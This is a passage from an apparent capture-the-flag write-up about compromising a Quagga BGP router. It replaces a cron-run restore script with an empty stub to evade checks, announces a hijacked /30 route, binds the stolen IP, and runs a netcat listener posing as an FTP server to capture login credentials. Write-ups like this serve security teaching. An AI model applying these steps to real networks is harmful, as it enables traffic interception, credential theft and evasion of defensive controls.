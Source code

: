There are a number of ways to deal with this: move ```/opt/restore.sh``` to another place, replace ```/opt/restore.sh``` with a benign script, or edit the crontab to not execute the script at all.  My choice was to move the script to ```/opt/restore.sh.bak``` and make a new script that does nothing and put in place of ```/opt/restore.sh```.  This will prevent error logs from being generated if ```/opt/restore.sh``` is not found, and it should fool shallow attempts to determine if the script ran.

```bash
mv /opt/restore.sh /opt/restore.sh.bak
echo "#!/bin/sh" > /opt/restore.sh
```

Now, let's edit ```/etc/quagga/bgpd.conf```.  I added a third network line for our "new" network:
```
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 network 10.120.15.8/30
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty
!
```

I made the change by creating a local file and uploading to the target by setting up an HTTP server on my local box.  We also have to add the IP to our eth2 interface so that when someone tries to login to the FTP server, our target will accept the connection.  If we did not have the correct IP (10.120.15.10), our target would get the packets and not know what to do with them and drop them.  To add the address to the interface:

```bash
ip addr add 10.120.15.10/30 broadcast 10.120.15.11 dev eth2
```

Now, we will pretend we are an FTP server an listen for incoming FTP connections.  In real life, we would probably have a script do this, but for this exercise, we will be the FTP server.  When we get a connection, we will send a 220 message which means that the server is ready.  The client should then send its user name, and we will respond with a 331 which means that a password is required.  The client will then send their password.  Let's set up the listener:
```bash
# -vvlp says to be extra verbose (vv), listen (l), on a specified port (p).  Since the port for FTP control is TCP 21, we will listen on 21.
nc -vvlp 21
```
